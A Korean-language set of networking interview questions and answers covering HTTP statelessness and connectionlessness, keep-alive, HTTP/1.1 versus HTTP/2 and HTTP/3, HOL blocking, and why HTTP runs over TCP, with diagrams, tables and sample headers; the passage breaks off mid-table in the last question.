# Network (네트워크)

## 📌 HTTP 기초

### NET-001
Q. HTTP에 대해 설명해 주세요.

**HTTP (HyperText Transfer Protocol)**는 웹에서 데이터를 주고받기 위한 프로토콜.

**정의:**
- 클라이언트와 서버 간의 통신 규약
- 웹 브라우저와 웹 서버가 데이터를 주고받는 방식
- 애플리케이션 계층 프로토콜 (OSI 7계층)

**주요 특징:**

1. **요청-응답 모델 (Request-Response)**
   - 클라이언트가 요청을 보내면 서버가 응답
   - 단방향 통신

2. **Stateless (무상태)**
   - 각 요청은 독립적
   - 이전 요청의 상태를 기억하지 않음

3. **Connectionless (비연결)**
   - 요청-응답 후 연결 종료
   - 연결을 유지하지 않음

**HTTP 메시지 구조:**

**요청 (Request):**
```
GET /index.html HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0
```

**응답 (Response):**
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1234

<html>...</html>
```

**HTTP 메서드:**
- **GET**: 리소스 조회
- **POST**: 리소스 생성
- **PUT**: 리소스 수정
- **DELETE**: 리소스 삭제
- **PATCH**: 리소스 부분 수정

**HTTP 버전:**
- **HTTP/1.0**: 기본 기능
- **HTTP/1.1**: Keep-Alive, 파이프라인
- **HTTP/2**: 멀티플렉싱, 헤더 압축
- **HTTP/3**: QUIC 기반, UDP 사용


```mermaid
graph LR
    A[클라이언트<br/>브라우저] -->|HTTP 요청| B[서버<br/>웹 서버]
    B -->|HTTP 응답| A
    
    C[HTTP 특징] --> D[Stateless<br/>무상태]
    C --> E[Connectionless<br/>비연결]
    C --> F[요청-응답<br/>모델]
    
    style A fill:#99ff99
    style B fill:#ffcc99
```

**사용 예시:**
- 웹 브라우징
- RESTful API
- 모바일 앱과 서버 통신

**결론:**
- **HTTP**: 웹 통신을 위한 프로토콜
- **특징**: Stateless, Connectionless, 요청-응답 모델
- **용도**: 웹 브라우징, API 통신

### NET-002
Q. HTTP의 특성인 Stateless에 대해 설명해 주세요.

**Stateless(무상태)**는 HTTP의 핵심 특성으로, 서버가 클라이언트의 이전 요청 상태를 기억하지 않는다는 의미.

**정의:**
- 각 HTTP 요청은 독립적
- 서버는 이전 요청의 정보를 저장하지 않음
- 요청마다 필요한 모든 정보를 포함해야 함

**동작 방식:**

**Stateless 예시:**
```
요청 1: GET /page1 → 서버 응답
요청 2: GET /page2 → 서버는 요청 1을 기억하지 않음
요청 3: GET /page1 → 서버는 이전 요청을 모름
```

**Stateful과 비교:**

**Stateful (상태 유지):**
- 서버가 클라이언트 상태를 기억
- 세션 관리 필요
- 예: FTP, Telnet

**Stateless (무상태):**
- 서버가 클라이언트 상태를 기억하지 않음
- 각 요청이 독립적
- 예: HTTP


```mermaid
graph TD
    A[HTTP 요청] --> B{Stateless}
    B --> C[서버는 이전 요청<br/>기억하지 않음]
    C --> D[각 요청은<br/>독립적]
    
    E[Stateful] --> F[서버가 상태<br/>기억함]
    F --> G[세션 관리<br/>필요]
    
    style B fill:#99ff99
    style E fill:#ffcc99
```

**Stateless의 장점:**

1. **서버 확장성**
   - 서버가 상태를 저장하지 않아 부하 분산 용이
   - 여러 서버로 요청 분산 가능

2. **단순성**
   - 서버 구현이 단순
   - 상태 관리 오버헤드 없음

3. **안정성**
   - 서버 장애 시 상태 복구 불필요
   - 클라이언트는 언제든 재요청 가능

**Stateless의 단점:**

1. **정보 중복**
   - 매 요청마다 필요한 정보를 모두 포함해야 함
   - 인증 정보, 사용자 정보 등

2. **성능 오버헤드**
   - 매 요청마다 헤더에 정보 포함
   - 쿠키, 토큰 등 추가 데이터

**해결 방법:**

**1. 쿠키 (Cookie)**
- 클라이언트에 상태 정보 저장
- 매 요청마다 쿠키 전송

**2. 세션 (Session)**
- 서버에 세션 저장 (Stateless 위반이지만 실용적)
- 세션 ID를 쿠키로 전송

**3. 토큰 (Token)**
- JWT 등으로 상태 정보 포함
- 서버 검증만 수행

**실제 사용:**

**순수 Stateless:**
```
요청: GET /api/data
헤더: Authorization: Bearer <token>
→ 토큰에 모든 정보 포함
```

**Stateless + 쿠키:**
```
요청: GET /api/data
헤더: Cookie: session_id=abc123
→ 서버는 세션 저장 (실질적으로 Stateful)
```

**결론:**
- **Stateless**: 서버가 이전 요청 상태를 기억하지 않음
- **장점**: 확장성, 단순성, 안정성
- **단점**: 정보 중복, 성능 오버헤드
- **해결**: 쿠키, 세션, 토큰 사용

### NET-003
Q. Stateless와 Connectionless에 대해 설명해 주세요.

**Stateless**와 **Connectionless**는 HTTP의 두 가지 핵심 특성으로, 서로 다른 개념.

**Stateless (무상태):**
- **의미**: 서버가 클라이언트의 이전 요청 상태를 기억하지 않음
- **범위**: 애플리케이션 레벨 (HTTP 프로토콜)
- **영향**: 각 요청에 필요한 모든 정보 포함 필요

**Connectionless (비연결):**
- **의미**: 요청-응답 후 연결을 유지하지 않음
- **범위**: 전송 레벨 (TCP 연결)
- **영향**: 매 요청마다 연결 설정 필요


```mermaid
graph TD
    A[HTTP 특성] --> B[Stateless<br/>무상태]
    A --> C[Connectionless<br/>비연결]
    
    B --> D[서버가 상태<br/>기억 안 함]
    B --> E[애플리케이션 레벨]
    
    C --> F[연결 유지 안 함]
    C --> G[전송 레벨]
    
    style B fill:#99ff99
    style C fill:#ffcc99
```

**비교:**

| 구분 | Stateless | Connectionless |
|------|-----------|----------------|
| **의미** | 상태를 기억하지 않음 | 연결을 유지하지 않음 |
| **레벨** | 애플리케이션 (HTTP) | 전송 (TCP) |
| **영향** | 요청 정보 포함 필요 | 연결 설정 오버헤드 |
| **해결** | 쿠키, 세션, 토큰 | Keep-Alive |

**Stateless 예시:**
```
요청 1: GET /page1 (로그인 정보 포함)
요청 2: GET /page2 (로그인 정보 다시 포함 필요)
→ 서버는 요청 1을 기억하지 않음
```

**Connectionless 예시:**
```
요청 1: TCP 연결 설정 → 요청 → 응답 → 연결 종료
요청 2: TCP 연결 설정 → 요청 → 응답 → 연결 종료
→ 매 요청마다 연결 설정 필요
```

**관계:**

**독립적이지만 관련 있음:**
- Stateless는 HTTP 프로토콜의 특성
- Connectionless는 TCP 연결 관리 방식
- 둘 다 HTTP의 단순성과 확장성에 기여

**실제 동작:**

**HTTP/1.0 (완전한 Connectionless):**
```
1. TCP 연결 설정
2. HTTP 요청
3. HTTP 응답
4. TCP 연결 종료
→ 매 요청마다 반복
```

**HTTP/1.1 (Keep-Alive로 개선):**
```
1. TCP 연결 설정
2. HTTP 요청 1 → 응답 1
3. HTTP 요청 2 → 응답 2 (연결 유지)
4. HTTP 요청 3 → 응답 3
5. 연결 종료
→ 하나의 연결로 여러 요청 처리
```

**해결 방법:**

**Stateless 해결:**
- 쿠키: 클라이언트에 상태 저장
- 세션: 서버에 상태 저장 (실질적으로 Stateful)
- 토큰: 요청에 상태 정보 포함

**Connectionless 해결:**
- HTTP Keep-Alive: 연결 재사용
- HTTP/2 Multiplexing: 하나의 연결로 여러 요청
- HTTP/3: 더 효율적인 연결 관리

**결론:**
- **Stateless**: 서버가 상태를 기억하지 않음 (애플리케이션 레벨)
- **Connectionless**: 연결을 유지하지 않음 (전송 레벨)
- **차이**: 서로 다른 레벨의 특성
- **관계**: 둘 다 HTTP의 단순성에 기여

### NET-004
Q. 왜 HTTP는 Stateless 구조를 채택하고 있을까요?

**HTTP가 Stateless를 채택한 이유는 확장성, 단순성, 안정성 때문.**

**주요 이유:**

**1. 서버 확장성 (Scalability)**
- 서버가 상태를 저장하지 않아 부하 분산 용이
- 여러 서버로 요청 분산 가능
- 서버 추가/제거가 쉬움

**2. 구현 단순성 (Simplicity)**
- 서버 구현이 단순
- 상태 관리 로직 불필요
- 디버깅이 쉬움

**3. 안정성 (Reliability)**
- 서버 장애 시 상태 복구 불필요
- 클라이언트는 언제든 재요청 가능
- 서버 재시작 시 상태 손실 없음

**4. 캐싱 효율성**
- 응답을 캐시하기 쉬움
- 상태와 무관하게 캐시 가능
- CDN 활용 용이


```mermaid
graph TD
    A[Stateless 채택 이유] --> B[확장성<br/>부하 분산 용이]
    A --> C[단순성<br/>구현 간단]
    A --> D[안정성<br/>장애 복구 용이]
    A --> E[캐싱<br/>효율적 캐싱]
    
    B --> F[여러 서버로<br/>요청 분산]
    C --> G[상태 관리<br/>로직 불필요]
    D --> H[서버 재시작<br/>영향 없음]
    E --> I[CDN 활용<br/>가능]
    
    style B fill:#99ff99
    style C fill:#99ff99
    style D fill:#99ff99
```

**Stateful과 비교:**

**Stateful의 문제점:**
- 서버가 상태를 저장해야 함
- 부하 분산 시 상태 공유 필요
- 서버 장애 시 상태 손실
- 구현 복잡도 증가

**Stateless의 장점:**
- 서버 확장 용이
- 구현 단순
- 장애 복구 용이
- 캐싱 효율적

**실제 예시:**

**Stateless (HTTP):**
```
서버 1: 요청 처리 (상태 없음)
서버 2: 요청 처리 (상태 없음)
→ 어느 서버로 요청해도 동일
```

**Stateful (세션 기반):**
```
서버 1: 세션 A 저장
서버 2: 세션 A 없음
→ 세션 A 요청은 서버 1로만 가능
→ 부하 분산 어려움
```

**웹의 특성:**

**초기 웹 환경:**
- 문서 중심의 단순한 통신
- 상태 관리가 필요 없음
- 확장성이 중요

**현대 웹 환경:**
- 복잡한 애플리케이션
- 상태 관리 필요 (세션, 쿠키 사용)
- 하지만 기본은 여전히 Stateless

**트레이드오프:**

**Stateless의 단점:**
- 매 요청마다 정보 포함 필요
- 인증 정보 중복 전송
- 성능 오버헤드

**하지만 장점이 더 큼:**
- 확장성과 안정성이 더 중요
- 단점은 쿠키, 토큰으로 해결 가능

**결론:**
- **확장성**: 부하 분산 용이
- **단순성**: 구현이 간단
- **안정성**: 장애 복구 용이
- **캐싱**: 효율적인 캐싱
- **웹의 특성**: 문서 중심 통신에 적합

### NET-005
Q. Connectionless의 논리대로면 성능이 되게 좋지 않을 것으로 보이는데, 해결 방법이 있을까요?

**맞습니다. Connectionless는 매 요청마다 연결 설정 오버헤드가 있어 성능 저하가 발생. 여러 해결 방법이 있음.**

**문제점:**

**Connectionless의 성능 문제:**
```
요청 1: TCP 연결 설정 (3-Way Handshake) → 요청 → 응답 → 연결 종료
요청 2: TCP 연결 설정 (3-Way Handshake) → 요청 → 응답 → 연결 종료
→ 매 요청마다 연결 설정 비용 발생
```

**연결 설정 비용:**
- 3-Way Handshake: RTT × 1.5
- 연결 종료: RTT × 1
- 총 오버헤드: RTT × 2.5 (매 요청마다)

**해결 방법:**

**1. HTTP Keep-Alive (HTTP/1.1)**
- 하나의 TCP 연결로 여러 요청 처리
- 연결을 재사용하여 오버헤드 감소

**2. HTTP/2 Multiplexing**
- 하나의 연결로 여러 요청 병렬 처리
- 헤더 압축으로 오버헤드 감소

**3. HTTP/3 (QUIC)**
- 더 빠른 연결 설정
- 연결 마이그레이션 지원


```mermaid
graph TD
    A[Connectionless<br/>성능 문제] --> B[해결 방법]
    
    B --> C[HTTP Keep-Alive<br/>연결 재사용]
    B --> D[HTTP/2<br/>Multiplexing]
    B --> E[HTTP/3<br/>QUIC]
    
    C --> F[하나의 연결로<br/>여러 요청]
    D --> G[병렬 요청<br/>헤더 압축]
    E --> H[빠른 연결<br/>마이그레이션]
    
    style C fill:#99ff99
    style D fill:#99ff99
    style E fill:#99ff99
```

**1. HTTP Keep-Alive:**

**HTTP/1.0 (Connectionless):**
```
요청 1: 연결 설정 → 요청 → 응답 → 연결 종료
요청 2: 연결 설정 → 요청 → 응답 → 연결 종료
```

**HTTP/1.1 (Keep-Alive):**
```
연결 설정
요청 1 → 응답 1
요청 2 → 응답 2
요청 3 → 응답 3
연결 종료
```

**장점:**
- 연결 설정 비용 감소
- 구현이 간단

**단점:**
- 순차적 요청 처리 (HOL Blocking)
- 하나의 느린 요청이 전체 지연

**2. HTTP/2 Multiplexing:**

**특징:**
- 하나의 연결로 여러 요청 병렬 처리
- 스트림 단위로 요청 분리
- 헤더 압축 (HPACK)

**장점:**
- 병렬 처리로 지연 감소
- 헤더 압축으로 오버헤드 감소
- 서버 푸시 지원

**단점:**
- TCP 레벨의 HOL Blocking 여전히 존재

**3. HTTP/3 (QUIC):**

**특징:**
- UDP 기반
- 연결 설정이 빠름 (0-RTT, 1-RTT)
- 연결 마이그레이션 지원

**장점:**
- 빠른 연결 설정
- 멀티플렉싱
- TCP HOL Blocking 해결

**성능 비교:**

| 방법 | 연결 설정 | 요청 처리 | HOL Blocking |
|------|----------|----------|--------------|
| **HTTP/1.0** | 매번 | 순차 | 있음 |
| **HTTP/1.1** | 재사용 | 순차 | 있음 |
| **HTTP/2** | 재사용 | 병렬 | TCP 레벨 |
| **HTTP/3** | 빠름 | 병렬 | 없음 |

**실제 사용:**

**HTTP/1.1 Keep-Alive:**
```http
Connection: keep-alive
Keep-Alive: timeout=5, max=100
```

**HTTP/2:**
- 자동으로 멀티플렉싱
- 별도 설정 불필요

**HTTP/3:**
- QUIC 프로토콜 사용
- 자동으로 최적화

**결론:**
- **문제**: 매 요청마다 연결 설정 오버헤드
- **해결 1**: HTTP Keep-Alive (연결 재사용)
- **해결 2**: HTTP/2 Multiplexing (병렬 처리)
- **해결 3**: HTTP/3 QUIC (빠른 연결)
- **효과**: 성능 크게 개선

### NET-006
Q. TCP의 keep-alive와 HTTP의 keep-alive의 차이는 무엇인가요?

**TCP Keep-Alive**와 **HTTP Keep-Alive**는 서로 다른 레벨에서 동작하는 메커니즘.

**TCP Keep-Alive:**
- **레벨**: 전송 계층 (TCP)
- **목적**: 유휴 연결이 살아있는지 확인
- **동작**: 주기적으로 빈 패킷 전송
- **기본 주기**: 2시간 (시스템 설정에 따라 다름)

**HTTP Keep-Alive:**
- **레벨**: 애플리케이션 계층 (HTTP)
- **목적**: 연결을 재사용하여 성능 향상
- **동작**: 요청-응답 후 연결 유지
- **기본**: HTTP/1.1에서 기본 활성화


```mermaid
graph TD
    A[Keep-Alive] --> B[TCP Keep-Alive<br/>전송 계층]
    A --> C[HTTP Keep-Alive<br/>애플리케이션 계층]
    
    B --> D[유휴 연결<br/>확인]
    B --> E[주기적<br/>빈 패킷]
    B --> F[2시간 주기]
    
    C --> G[연결 재사용<br/>성능 향상]
    C --> H[요청-응답 후<br/>연결 유지]
    C --> I[HTTP/1.1<br/>기본 활성화]
    
    style B fill:#ffcc99
    style C fill:#99ff99
```

**비교표:**

| 구분 | TCP Keep-Alive | HTTP Keep-Alive |
|------|----------------|-----------------|
| **레벨** | 전송 계층 (TCP) | 애플리케이션 계층 (HTTP) |
| **목적** | 연결 상태 확인 | 연결 재사용 |
| **동작** | 주기적 빈 패킷 | 요청-응답 후 유지 |
| **주기** | 2시간 (기본) | 요청이 있을 때 |
| **활성화** | 선택적 (비활성화 가능) | HTTP/1.1 기본 활성화 |

**TCP Keep-Alive 동작:**

**목적:**
- 유휴 연결이 살아있는지 확인
- 죽은 연결 감지 및 정리

**동작:**
```
1. 연결 유휴 상태 (2시간)
2. TCP Keep-Alive 패킷 전송
3. 응답 있음 → 연결 유지
4. 응답 없음 → 연결 종료
```

**설정:**
```c
// Linux 예시
net.ipv4.tcp_keepalive_time = 7200  // 2시간
net.ipv4.tcp_keepalive_probes = 9   // 9번 시도
net.ipv4.tcp_keepalive_intvl = 75   // 75초 간격
```

**HTTP Keep-Alive 동작:**

**목적:**
- 연결을 재사용하여 성능 향상
- 연결 설정 오버헤드 감소

**동작:**
```
1. HTTP 요청
2. HTTP 응답
3. 연결 유지 (종료 안 함)
4. 다음 요청 재사용
```

**HTTP/1.0:**
```http
Connection: keep-alive
Keep-Alive: timeout=5, max=100
```

**HTTP/1.1:**
- 기본적으로 Keep-Alive 활성화
- `Connection: close`로 비활성화 가능

**관계:**

**독립적이지만 함께 사용:**
- HTTP Keep-Alive로 연결 유지
- TCP Keep-Alive로 연결 상태 확인
- 둘 다 활성화 시 효율적

**시나리오:**

**1. HTTP Keep-Alive만 사용:**
```
요청 → 응답 → 연결 유지 → 다음 요청 재사용
→ TCP Keep-Alive 없으면 죽은 연결 감지 못함
```

**2. TCP Keep-Alive만 사용:**
```
연결 유지 → 주기적 확인
→ HTTP Keep-Alive 없으면 매 요청마다 연결 설정
```

**3. 둘 다 사용 (권장):**
```
HTTP Keep-Alive: 연결 재사용
TCP Keep-Alive: 연결 상태 확인
→ 최적의 성능과 안정성
```

**실제 사용:**

**웹 서버 설정:**
```nginx
# Nginx 예시
keepalive_timeout 65;  # HTTP Keep-Alive 타임아웃
keepalive_requests 100;  # 최대 요청 수
```

**TCP Keep-Alive:**
- 시스템 레벨 설정
- 애플리케이션에서 제어 어려움

**결론:**
- **TCP Keep-Alive**: 전송 계층, 연결 상태 확인
- **HTTP Keep-Alive**: 애플리케이션 계층, 연결 재사용
- **차이**: 레벨과 목적이 다름
- **관계**: 함께 사용 시 최적

---

## 📌 HTTP 버전 및 성능

### NET-007
Q. HTTP/1.1과 HTTP/2의 차이점은 무엇인가요?

**HTTP/1.1과 HTTP/2의 주요 차이는 성능 최적화와 멀티플렉싱.**

**주요 차이점:**

**1. 멀티플렉싱 (Multiplexing)**
- **HTTP/1.1**: 순차적 요청 처리 (파이프라인 제한적)
- **HTTP/2**: 하나의 연결로 여러 요청 병렬 처리

**2. 헤더 압축**
- **HTTP/1.1**: 헤더 압축 없음
- **HTTP/2**: HPACK으로 헤더 압축

**3. 바이너리 프로토콜**
- **HTTP/1.1**: 텍스트 기반
- **HTTP/2**: 바이너리 프레임 기반

**4. 서버 푸시**
- **HTTP/1.1**: 지원 안 함
- **HTTP/2**: 서버가 클라이언트에 리소스 푸시 가능

**5. 스트림 우선순위**
- **HTTP/1.1**: 지원 안 함
- **HTTP/2**: 요청 우선순위 지정 가능


```mermaid
graph TD
    A[HTTP 버전 비교] --> B[HTTP/1.1]
    A --> C[HTTP/2]
    
    B --> D[순차 처리<br/>텍스트 기반<br/>헤더 압축 없음]
    C --> E[병렬 처리<br/>바이너리 기반<br/>헤더 압축]
    
    D --> F[성능 제한]
    E --> G[성능 향상]
    
    style C fill:#99ff99
    style G fill:#99ff99
```

**상세 비교:**

| 구분 | HTTP/1.1 | HTTP/2 |
|------|----------|--------|
| **프로토콜** | 텍스트 기반 | 바이너리 프레임 |
| **멀티플렉싱** | 제한적 (파이프라인) | 완전 지원 |
| **헤더 압축** | 없음 | HPACK |
| **서버 푸시** | 없음 | 지원 |
| **스트림 우선순위** | 없음 | 지원 |
| **HOL Blocking** | 있음 | TCP 레벨만 |

**1. 멀티플렉싱:**

**HTTP/1.1:**
```
요청 1 → 응답 1
요청 2 → 응답 2
요청 3 → 응답 3
→ 순차 처리, 하나가 느리면 전체 지연
```

**HTTP/2:**
```
요청 1, 2, 3 → 병렬 처리
응답 1, 2, 3 → 순서와 무관하게 반환
→ 병렬 처리, 독립적
```

**2. 헤더 압축:**

**HTTP/1.1:**
```
GET /page HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Cookie: session=abc123
→ 매 요청마다 전체 헤더 전송
```

**HTTP/2:**
```
첫 요청: 전체 헤더 전송
다음 요청: 변경된 헤더만 전송 (HPACK)
→ 헤더 크기 감소
```

**3. 바이너리 프레임:**

**HTTP/1.1:**
- 텍스트 기반 파싱
- 오류 발생 가능

**HTTP/2:**
- 바이너리 프레임
- 파싱이 빠르고 정확

**4. 서버 푸시:**

**HTTP/1.1:**
```
클라이언트: HTML 요청
서버: HTML 응답
클라이언트: CSS 요청
서버: CSS 응답
→ 여러 번 왕복
```

**HTTP/2:**
```
클라이언트: HTML 요청
서버: HTML + CSS 푸시 (예측)
→ 한 번의 왕복
```

**성능 비교:**

**HTTP/1.1 문제:**
- 순차 처리로 지연
- 헤더 오버헤드
- HOL Blocking

**HTTP/2 개선:**
- 병렬 처리로 지연 감소
- 헤더 압축으로 오버헤드 감소
- 서버 푸시로 왕복 감소

**실제 성능:**
- HTTP/2가 일반적으로 15-50% 빠름
- 특히 여러 리소스 로드 시 효과적

**호환성:**

**HTTP/2:**
- HTTP/1.1과 호환
- 같은 포트 사용 (443)
- ALPN으로 버전 협상

**마이그레이션:**
- 대부분의 브라우저 지원
- 서버 설정만 변경
- 하위 호환성 유지

**결론:**
- **멀티플렉싱**: 병렬 처리로 성능 향상
- **헤더 압축**: 오버헤드 감소
- **서버 푸시**: 왕복 감소
- **바이너리 프레임**: 효율적인 전송
- **전체**: HTTP/2가 성능 우수

### NET-008
Q. HOL Blocking 에 대해 설명해 주세요.

**HOL Blocking (Head-of-Line Blocking)**은 큐에서 앞의 패킷이 지연되면 뒤의 패킷도 대기해야 하는 현상.

**정의:**
- 큐의 앞부분이 막히면 뒤의 패킷이 처리되지 못함
- 순서가 중요한 상황에서 발생
- 네트워크와 HTTP 레벨에서 모두 발생 가능

**발생 위치:**

**1. HTTP 레벨 HOL Blocking (HTTP/1.1)**
- 하나의 연결에서 순차 처리
- 앞의 요청이 느리면 뒤의 요청 대기

**2. TCP 레벨 HOL Blocking (HTTP/2)**
- TCP는 순서 보장
- 하나의 패킷 손실 시 전체 스트림 대기


```mermaid
graph TD
    A[HOL Blocking] --> B[HTTP 레벨<br/>HTTP/1.1]
    A --> C[TCP 레벨<br/>HTTP/2]
    
    B --> D[순차 처리<br/>앞 요청 지연]
    C --> E[패킷 손실<br/>전체 대기]
    
    D --> F[HTTP/2로<br/>해결]
    E --> G[HTTP/3로<br/>해결]
    
    style B fill:#ff9999
    style C fill:#ffcc99
```

**HTTP/1.1 HOL Blocking:**

**문제 상황:**
```
요청 1 (느림, 5초) → 응답 1
요청 2 (빠름, 0.1초) → 대기 중...
요청 3 (빠름, 0.1초) → 대기 중...
→ 요청 2, 3은 요청 1 완료까지 대기
```

**원인:**
- 하나의 연결에서 순차 처리
- 파이프라인 제한적

**해결:**
- HTTP/2 멀티플렉싱
- 여러 연결 사용 (도메인 샤딩)

**HTTP/2 TCP HOL Blocking:**

**문제 상황:**
```
스트림 1: 패킷 1, 2, 3 전송
스트림 2: 패킷 4, 5, 6 전송
→ 패킷 2 손실
→ 스트림 1, 2 모두 대기 (TCP 순서 보장)
```

**원인:**
- TCP는 바이트 스트림 순서 보장
- 하나의 패킷 손실 시 전체 대기

**해결:**
- HTTP/3 (QUIC)
- UDP 기반으로 스트림 독립적

**비교:**

| 구분 | HTTP/1.1 | HTTP/2 | HTTP/3 |
|------|----------|--------|--------|
| **HTTP 레벨 HOL** | 있음 | 없음 | 없음 |
| **TCP 레벨 HOL** | 있음 | 있음 | 없음 |

**실제 예시:**

**HTTP/1.1:**
```
요청: 이미지 1 (10MB, 느림)
요청: 이미지 2 (100KB, 빠름)
→ 이미지 2는 이미지 1 완료까지 대기
```

**HTTP/2:**
```
요청: 이미지 1, 2 병렬 처리
→ 이미지 2는 독립적으로 처리
→ 하지만 TCP 레벨 HOL은 여전히 존재
```

**HTTP/3:**
```
요청: 이미지 1, 2 병렬 처리
→ 각 스트림이 독립적
→ TCP HOL 없음
```

**해결 방법:**

**1. HTTP/2 멀티플렉싱**
- HTTP 레벨 HOL 해결
- 여러 요청 병렬 처리

**2. HTTP/3 QUIC**
- TCP 레벨 HOL 해결
- UDP 기반 독립 스트림

**3. 도메인 샤딩 (HTTP/1.1)**
- 여러 연결 사용
- 제한적 해결

**성능 영향:**

**HOL Blocking 있을 때:**
- 느린 리소스가 전체 지연
- 병렬 처리 불가
- 대역폭 낭비

**HOL Blocking 없을 때:**
- 각 리소스 독립 처리
- 병렬 처리 가능
- 효율적인 대역폭 사용

**결론:**
- **HOL Blocking**: 앞의 패킷이 뒤의 패킷을 막는 현상
- **HTTP 레벨**: HTTP/1.1에서 발생, HTTP/2로 해결
- **TCP 레벨**: HTTP/2에서도 존재, HTTP/3로 해결
- **해결**: 멀티플렉싱, QUIC 사용

### NET-009
Q. HTTP/3.0의 주요 특징에 대해 설명해 주세요.

**HTTP/3**는 QUIC 프로토콜 기반의 HTTP 버전으로, 성능과 안정성을 크게 개선.

**주요 특징:**

**1. QUIC 프로토콜 사용**
- UDP 기반 (TCP 대신)
- 연결 설정이 빠름
- 멀티플렉싱 지원

**2. 빠른 연결 설정**
- 0-RTT: 이전 연결 재사용 시 즉시 전송
- 1-RTT: 새 연결도 빠른 설정

**3. 독립적인 스트림**
- 각 스트림이 독립적
- TCP HOL Blocking 해결
- 패킷 손실이 다른 스트림에 영향 없음

**4. 연결 마이그레이션**
- 네트워크 변경 시에도 연결 유지
- 모바일 환경에 유리

**5. 내장 암호화**
- TLS 1.3 통합
- 암호화 필수


```mermaid
graph TD
    A[HTTP/3 특징] --> B[QUIC 프로토콜<br/>UDP 기반]
    A --> C[빠른 연결<br/>0-RTT/1-RTT]
    A --> D[독립 스트림<br/>HOL Blocking 해결]
    A --> E[연결 마이그레이션<br/>네트워크 변경]
    A --> F[내장 암호화<br/>TLS 1.3]
    
    B --> G[TCP 대신 UDP]
    C --> H[연결 설정<br/>빠름]
    D --> I[각 스트림<br/>독립적]
    
    style B fill:#99ff99
    style D fill:#99ff99
```

**QUIC 프로토콜:**

**TCP vs QUIC:**

| 구분 | TCP | QUIC |
|------|-----|------|
| **기반** | TCP | UDP |
| **연결 설정** | 3-Way Handshake | 0-RTT/1-RTT |
| **멀티플렉싱** | 제한적 | 완전 지원 |
| **HOL Blocking** | 있음 | 없음 |
| **암호화** | 별도 (TLS) | 내장 |

**빠른 연결 설정:**

**TCP (HTTP/1.1, HTTP/2):**
```
1. TCP 연결 설정 (3-Way Handshake) - 1 RTT
2. TLS 핸드셰이크 - 1-2 RTT
3. HTTP 요청/응답
→ 총 2-3 RTT
```

**QUIC (HTTP/3):**
```
0-RTT (재사용): 즉시 전송
1-RTT (새 연결): 1 RTT로 연결 + 암호화
→ 총 0-1 RTT
```

**독립적인 스트림:**

**HTTP/2 (TCP):**
```
스트림 1: 패킷 손실 → 전체 대기
스트림 2: 정상 → 대기 중 (TCP 순서 보장)
```

**HTTP/3 (QUIC):**
```
스트림 1: 패킷 손실 → 스트림 1만 대기
스트림 2: 정상 → 독립적으로 처리
→ HOL Blocking 없음
```

**연결 마이그레이션:**

**TCP:**
```
Wi-Fi → 모바일 데이터
→ 연결 끊김, 재연결 필요
```

**QUIC:**
```
Wi-Fi → 모바일 데이터
→ 연결 유지, 연결 ID로 식별
→ 끊김 없음
```

**내장 암호화:**

**HTTP/1.1, HTTP/2:**
- HTTP는 평문
- HTTPS는 별도 TLS 필요

**HTTP/3:**
- QUIC에 TLS 1.3 통합
- 암호화 필수
- 더 빠른 핸드셰이크

**성능 비교:**

**연결 설정:**
- HTTP/2: 2-3 RTT
- HTTP/3: 0-1 RTT

**멀티플렉싱:**
- HTTP/2: TCP HOL Blocking
- HTTP/3: HOL Blocking 없음

**네트워크 변경:**
- HTTP/2: 연결 끊김
- HTTP/3: 연결 유지

**호환성:**

**브라우저 지원:**
- Chrome, Firefox, Edge 지원
- Safari 부분 지원

**서버 지원:**
- Nginx, Apache 모듈
- Cloudflare, Google 지원

**마이그레이션:**
- HTTP/2와 병행 사용 가능
- ALPN으로 버전 협상

**장단점:**

**장점:**
- 빠른 연결 설정
- HOL Blocking 해결
- 연결 마이그레이션
- 내장 암호화

**단점:**
- UDP 방화벽 문제
- 네트워크 중간 장치 지원 제한
- 아직 완전히 표준화되지 않음

**결론:**
- **QUIC 기반**: UDP 사용, 빠른 연결
- **독립 스트림**: HOL Blocking 해결
- **연결 마이그레이션**: 네트워크 변경 시 유지
- **내장 암호화**: TLS 1.3 통합
- **성능**: HTTP/2보다 우수

### NET-010
Q. 왜 HTTP는 TCP를 사용하나요?

**HTTP가 TCP를 사용하는 이유는 신뢰성과 순서 보장 때문.**

**TCP의 장점:**

**1. 신뢰성 (Reliability)**
- 패킷 손실 시 재전송
- 데이터 무결성 보장
- HTTP 요청/응답의 정확성 보장

**2. 순서 보장 (Ordering)**
- 패킷 순서 보장
- HTTP 메시지가 올바른 순서로 전달
- 텍스트 기반 프로토콜에 중요

**3. 연결 지향 (Connection-oriented)**
- 연결 설정 후 통신
- 상태 관리 가능
- Keep-Alive로 연결 재사용

**4. 흐름 제어 (Flow Control)**
- 수신자 속도에 맞춰 전송
- 버퍼 오버플로우 방지

**5. 혼잡 제어 (Congestion Control)**
- 네트워크 혼잡 시 속도 조절
- 네트워크 안정성 유지


```mermaid
graph TD
    A[HTTP가 TCP 사용 이유] --> B[신뢰성<br/>재전송 보장]
    A --> C[순서 보장<br/>올바른 전달]
    A --> D[연결 지향<br/>상태 관리]
    A --> E[흐름 제어<br/>속도 조절]
    A --> F[혼잡 제어<br/>네트워크 안정]
    
    B --> G[패킷 손실<br/>재전송]
    C --> H[HTTP 메시지<br/>순서 보장]
    
    style B fill:#99ff99
    style C fill:#99ff99
```

**UDP와 비교:**

**UDP의 문제점:**
- 신뢰성 없음 (패킷 손실 가능)
- 순서 보장 없음
- HTTP 메시지가 손상되거나 순서가 바뀔 수 있음

**TCP의 장점:**
- 신뢰성 보장
- 순서 보장
- HTTP에 적합

**HTTP의 요구사항:**

**1. 정확한 데이터 전달**
- 웹 페이지, 이미지 등이 정확히 전달되어야 함
- 손실되면 안 됨

**2. 순서 보장**
- HTML, CSS, JS가 올바른 순서로 로드되어야 함
- 순서가 바뀌면 오류

**3. 연결 관리**
- Keep-Alive로 연결 재사용
- 세션 관리 가능

**실제 예시:**

**TCP 사용 (HTTP/1.1, HTTP/2):**
```
요청: GET /page.html
→ TCP가 신뢰성과 순서 보장
→ 정확한 응답 수신
```

**UDP 사용 시 문제:**
```
요청: GET /page.html
→ 패킷 손실 가능
→ 순서 바뀔 수 있음
→ HTTP 메시지 손상
```

**HTTP/3의 변화:**

**HTTP/3는 UDP 사용하지만:**
- QUIC이 UDP 위에 신뢰성 구현
- 애플리케이션 레벨에서 재전송
- TCP의 장점을 UDP로 구현

**비교:**

| 구분 | TCP | UDP | QUIC (UDP 기반) |
|------|-----|-----|-----------------|
